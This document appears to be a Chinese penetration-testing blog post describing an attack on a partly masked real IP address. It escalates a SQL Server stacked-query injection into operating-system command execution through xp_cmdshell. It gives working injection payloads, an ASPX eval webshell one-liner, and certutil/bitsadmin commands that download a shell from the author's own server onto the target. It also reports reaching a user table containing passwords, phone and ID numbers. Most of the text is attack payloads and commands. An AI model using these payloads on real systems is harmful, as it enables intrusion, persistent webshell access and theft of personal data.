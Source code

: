 ```yaml
---
date: 2019-03-02 20:23:35
title: 从 SQL Server 注入到 getshell
description: SQLServer 多语句查询 SQL 注入，读网站路径然后写 shell
categories:
  - Pentest
tags:
  - getshell
  - pentest
---
```


### 0x00 目标情况
* 一个web站点111.\*.\*.63，只有一个登陆框，测试了没有注入，没有弱口令
* 扫描了全端口，没有发现什么有用的信息

### 0x01 发现注入
当时是查看网页源代码，有两个可疑接口，一个是初始化密码借口，访问返回空白页面，没有什么用

另一个是密码设置接口，不过这个接口是同网段的另一个ip 111.\*.\*.59，访问后发现是个重置密码的界面
![80](/img/post/Xnip2019-03-03_14-50-18.png)

但是进行密码重置的时候需要发送验证码，系统会先校验用户名是否存在，加单引号出错，and 1=2没反应

burpsuite抓包后sqlmap跑了下，python sqlmap.py -r 1.txt，存在注入
![80](/img/post/Xnip2019-03-03_16-00-32.png)

通过sqlmap得到了这几个数据库
```
[*] HSOA_20170320
[*] HSOA_NEW
[*] HSOA_T
[*] master
[*] model
[*] msdb
[*] Shuttle
[*] SHWT
[*] tempdb
```

### 0x02 找网站绝对路径
* 判断是不是dba权限(延时后返回正确页面，确定为dba权限<也可用sqlmap的--is-dba判断>)

```
uname=test';if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:2';--
```

* 判断是否是站库分离(延时后返回正确页面，确定站库没有分离)

```sql
uname=test';if(host_name()=@@servername) WAITFOR DELAY '0:0:5';--
```

* 查看是否有xp_cmdshell

```
uname=test';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:2'--
```
```
恢复／删除xp_cmdshell
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
exec sp_dropextendedproc 'xplog70.dll'
```

* 开启xp_cmdshell

```
# 关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

* 得到网站绝对路径

可以找一个在网站中的文件，然后可以用```dir /s /b d:\"aa.txt"```或者 for /r d:\ %i in (aa.txt) do echo %i来得到路径

查看网页源代码发现引入了js脚本```"<script src="/Content/layer/layer.js"></script>"```，就查找layer.js吧

本来想使用sqlmap的-\-os-shell直接执行命令试试，python sqlmap.py -r 1.txt --os-shell，但是发现执行命令的话一直没有数据返回

<br>
那就手工注入找路径，先建表，将路径插入表，然后得到表内容

```
--在数据库tempdb下创建临时表tt_tmp
uname=test';use tempdb;create table tt_tmp (tmp1 varchar(1000));--
```

sqlmap查看建表成功，```sqlmap -r 1.txt --dbms "Microsoft SQL Server" -D "tempdb" --tables```
![40](/img/post/Xnip2019-03-03_18-16-01.png)

```
--查找网站文件并把路径写入到表tt_tmp
uname=test';use tempdb;insert into tt_tmp(tmp1) exec master..xp_cmdshell 'dir /s /b d:\layer.js';--
```

用sqlmap得到表tt_tmp的内容: ```python sqlmap.py -r 1.txt --dbms="Microsoft SQL Server" --technique=S -D "tempdb" -T "tt_tmp" -C "tmp1" --dump -v 3```
![65](/img/post/Xnip2019-02-28_10-01-37.png)

### 0x03 尝试在111.\*.\*.59主机getshell
* 尝试写一句话

先在下面的路径中写入txt文件验证网站路径到底是哪一个

```
D:\bak\20170226\bak\20170403.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.3\webapp\Content\layer\
D:\bak\20170226\bak\20170404\webapp\Content\layer\
D:\bak\20170226\bak\20170405\webapp\Content\layer\
D:\bak\20170226\bak\20170407\webapp\Content\layer\
D:\bak\20170226\bak\20180103\webapp\Content\layer\
D:\bak\20170226\bak\20180320\webapp\Content\layer\
D:\bak\20170226\webapp\Content\layer\
D:\bak\20170226\webappYM\Content\layer\
D:\WEBAPP\Content\layer\
```

```sql
uname=test';exec master..xp_cmdshell 'echo test >D:\bak\20170226\bak\20170403.2\webapp\Content\layer\11.txt';--
```
依次写文件然后访问，在写入 ```D:\bak\20170226\webapp\Content\layer\123.txt```时，访问```http://111.*.*.59/Content/layer/123.txt```能正常访问到123.txt，返回内容为test，证明web路径就是D:\bak\20170226\webapp\
<br>
尝试写入一句话(< >的前面要加^)
```sql
uname=test';exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.item["Aa1234567"],"unsafe");%^> > D:\bak\20170226\webapp\Content\layer\cc.aspx';--
```

访问时可以看到aa.aspx确实写入了，但是菜刀连接不上
![70](/img/post/Xnip2019-03-03_20-25-24.png)

* 尝试直接下载shell到服务器

使用bitsadmin下载时并没有成功，访问```http://111.*.*.59/Content/layer/aaa.aspx```返回404
```sql
uname=test';exec master..xp_cmdshell 'bitsadmin /rawreturn /transfer getfile http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```

使用certutil下载时才成功，得到shell地址```http://111.*.*.59/Content/layer/aaa.aspx```
```sql
uname=test';exec master..xp_cmdshell 'certutil -urlcache -split -f http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```
![70](/img/post/Xnip2019-03-03_20-42-24.png)

### 0x04 查数据库相关信息
* 找到数据库配置文件
![80](/img/post/Xnip2019-03-05_10-25-52.png)
![90](/img/post/Xnip2019-03-05_10-34-10.png)
![90](/img/post/Xnip2019-03-05_10-37-28.png)

* 尝试登陆

找到了用户表，有用户名、密码、姓名、手机号、邮箱、身份证号
![80](/img/post/Xnip2019-03-05_11-00-44.png)
在111.\*.\*.63登陆发现它只是个登陆接口，真正网站是在111.\*.\*.59的
![60](/img/post/Xnip2019-03-05_11-03-08.png)


### 0x05 附：sqlmap得到路径的语句分析
```sql
cast转换数据类型
isnull判断数据是否为空，为空的话返回char(32)
unicode字符转换为10进制数字

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp),1,1))>32) WAITFOR DELAY '0:0:1';

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp WHERE CONVERT(NVARCHAR(4000),tmp1)>'D:\WEBAPP\Content\layer\layer.js'),1,1))>16) WAITFOR DELAY '0:0:1';
```


<br>
#### Reference(侵删)：
* [https://www.cnblogs.com/backlion/p/6869595.html](https://www.cnblogs.com/backlion/p/6869595.html?_blank)


